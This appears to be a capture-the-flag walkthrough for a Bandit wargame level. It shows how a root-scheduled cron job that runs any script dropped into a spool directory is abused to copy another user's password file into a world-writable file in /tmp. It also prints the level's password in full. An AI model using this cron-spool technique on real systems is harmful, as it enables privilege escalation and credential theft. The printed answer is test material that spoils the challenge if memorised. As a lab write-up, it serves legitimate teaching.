 # Level 23 &rarr; Level 24

Like the last level, we know that a program is being run via `cron`, so we check the */etc/cron.d/* directory for the configuration:

```
bandit23@bandit:/tmp/mytestscript$ ls /etc/cron.d/
atop  cronjob_bandit22  cronjob_bandit23  cronjob_bandit24
```

For this level, */etc/cron.d/cronjob_bandit24* is most likely the relevant file.
We read the file:

```
bandit23@bandit:/tmp/mytestscript$ cat /etc/cron.d/cronjob_bandit24 
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

We observe that the program runs the script */usr/bin/cronjob_bandit24.sh*.
We read that file:

```
bandit23@bandit:/tmp/mytestscript$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
	echo "Handling $i"
	timeout -s 9 60 ./$i
	rm -f ./$i
    fi
done


```

We observe that the script changes directory to */var/spool/bandit24*, since the script is run as user bandit24.
Afterwards, the script executes and deletes all files in that directory.

Since the files in */var/spool/bandit24* gets run as user bandit24, we can copy a script which writes the password for level 24 to a file that is readable by user bandit23.
Since the files get deleted, we create the script in a directory within */tmp/*:

```
bandit23@bandit:~$ mkdir /tmp/mytestscript/
bandit23@bandit:~$ cd /tmp/mytestscript
bandit23@bandit:/tmp/mytestscript$ 
```

We then create */tmp/mytestscript/script.sh*:

```
bandit23@bandit:/tmp/mytestscript$ cat script.sh 
#!/bin/sh
cat /etc/bandit_pass/bandit24 > /tmp/mytestscript/bandit24pass
bandit23@bandit:/tmp/mytestscript$ 
```

Before copying the script file, we give all users permissions to the script. We also create the empty file */tmp/mytestscript/bandit24pass* and give all users permissions to that file as well:

```
bandit23@bandit:/tmp/mytestscript$ chmod 777 script.sh
bandit23@bandit:/tmp/mytestscript$ touch bandit24pass
bandit23@bandit:/tmp/mytestscript$ chmod 777 bandit24pass
```

We then copy */tmp/mytestscript/script.sh* to */var/spool/bandit24/* and wait a minute for the script to be executed (and deleted).

After a minute we observe the password for level 24 has been written to */tmp/mytestscript/bandit24pass*:

```
bandit23@bandit:/tmp/mytestscript$ cat bandit24pass 
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

The password for level 24 is: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
